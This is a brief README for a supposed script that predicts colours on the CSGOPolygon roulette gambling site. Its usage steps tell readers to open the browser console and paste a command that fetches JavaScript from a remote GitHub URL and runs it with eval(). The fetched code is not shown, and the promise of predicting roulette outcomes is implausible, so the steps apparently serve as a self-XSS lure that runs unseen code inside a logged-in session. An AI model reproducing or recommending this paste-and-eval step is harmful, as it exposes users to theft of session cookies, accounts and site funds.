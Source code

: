 # ✨ CSGOPOLYGON COLOR PREDICT SCRIPT ✨
A simple script to predict the color on CSGOPolygon roulette
<img width="758" alt="image" src="https://i.imgur.com/6k7tufL.png">
# HOW TO USE
1. Click right mouse button
2. Click on "Inspect element"
3. From the bar at the top, select "Console"
4. Paste this:
```dif
fetch("https://raw.githubusercontent.com/richiijs/csgopolygon-color-predict/main/predict.js")
.then(( res ) => res.text())
.then((t) => eval(t));
```
